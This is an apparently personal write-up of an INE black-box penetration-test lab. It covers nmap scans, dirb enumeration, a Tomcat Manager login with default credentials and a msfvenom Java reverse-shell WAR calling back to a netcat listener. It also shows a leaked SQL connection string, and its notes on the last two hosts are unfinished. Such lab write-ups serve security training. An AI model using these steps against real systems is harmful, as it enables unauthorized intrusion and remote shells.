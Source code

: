 # Rachel Murphy
# INE-8/20/21
# Black Box Pen Test 1

# Scenario
- You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range). Your goal is to read the flag file on each machine. On some of them, you will be required to exploit a remote code execution vulnerability in order to read the flag.
- Some machines are exploitable instantly but some might require exploiting other ones first. Enumerate every compromised machine to identify valuable information, that will help you proceed further into the environment.
- If you are stuck on one of the machines, don't overthink and start pentesting another one.
- When you read the flag file, you can be sure that the machine was successfully compromised. But keep your eyes open - apart from the flag, other useful information may be present on the system.

# Goals
- Discover and exploit all the machines on the network
- Read all flag files (one per machine)

# What you will learn
- How to exploit Apache Tomcat
- How to exploit SQL server
- Post Exploitation Discovery
- Arbitrary file upload exploitation

# Recommended Tools
- Dirb
- Metasploit framework
- Nmap 
- Netcat

---

1. Find alive hosts on the network.

`nmap -sn 172.16.64.0/24`

```
Nmap scan report for 172.16.64.101
Host is up (0.12s latency).
MAC Address: 00:50:56:A2:52:F0 (VMware)
Nmap scan report for 172.16.64.140
Host is up (0.11s latency).
MAC Address: 00:50:56:A2:E4:85 (VMware)
Nmap scan report for 172.16.64.182
Host is up (0.059s latency).
MAC Address: 00:50:56:A2:B1:61 (VMware)
Nmap scan report for 172.16.64.199
Host is up (0.057s latency).
MAC Address: 00:50:56:A2:BF:51 (VMware)
Nmap scan report for 172.16.64.10
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 5.24 seconds
```
Five hosts are up.

Performing service detection scan against all targets.

`sudo nmap -sV -sS -v 172.16.64.10,101,140,182,199 -oN servicescan.txt`

Nmap results for `172.16.64.101` -pwn. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
9080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:50:56:A2:52:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.140` -

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:50:56:A2:E4:85 (VMware)
```
Nmap results for `172.16.64.182`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:50:56:A2:B1:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.199`

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2014 12.00.2000
MAC Address: 00:50:56:A2:BF:51 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- Beginning with `172.16.64.101` and visiting the webserver over port 8080.

Using DIRB with `dirb http://172.16.64.101:8080/ /usr/share/dirb/wordlists/vulns/apache.txt`

Apache Tomcat Manager Auth Page at http://172.16.64.101:9080

Logged into webapp with username: tomcat password: s3cret

Uploaded .war file exploit with msfvenom (USE LHOST VPN IP!!)
`msfvenom -p java/shell_reverse_tcp lhost=172.16.64.10 lport=1996 -f war -o 2pwn.war`
Set up netcat listener and then deploy the 2pwn .war file
`nc -lvnp 1996` 
Remote connection made and locate the flag.txt files with `locate flag.txt`

- Next target http://172.16.64.140:80
- Apache httpd 2.4.18
Enumerating directories with dirb.
`dirb http://172.16.64.140:80 /usr/share/wordlists/dirb/common.txt`
Navigated to the /project directory
Entered credentials: admin:admin
and.....accessed web browser. potential SQLi
Enumerate harder.
dirb http://172.16.64.140/project -u admin:admin 

INTERESTING DIRECTORY
http://172.16.64.140/project/backup/test/sdadas.txt
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
![mysqlcreds](https://user-images.githubusercontent.com/76081641/130326946-f9519d7e-60da-4d55-a8a1-499906bcd998.png)

Perform a simple directory traversal to read the flag.txt file. 

http://172.16.64.140/project/354253425234234/flag.txt

- Next target `172.16.64.182`

Recalling the nmap scan 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:50:56:A2:B1:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Next target `172.16.64.199`

Recalling the nmap scan 

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2014 12.00.2000
MAC Address: 00:50:56:A2:BF:51 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Most likely a null session or mssql vulnerability.
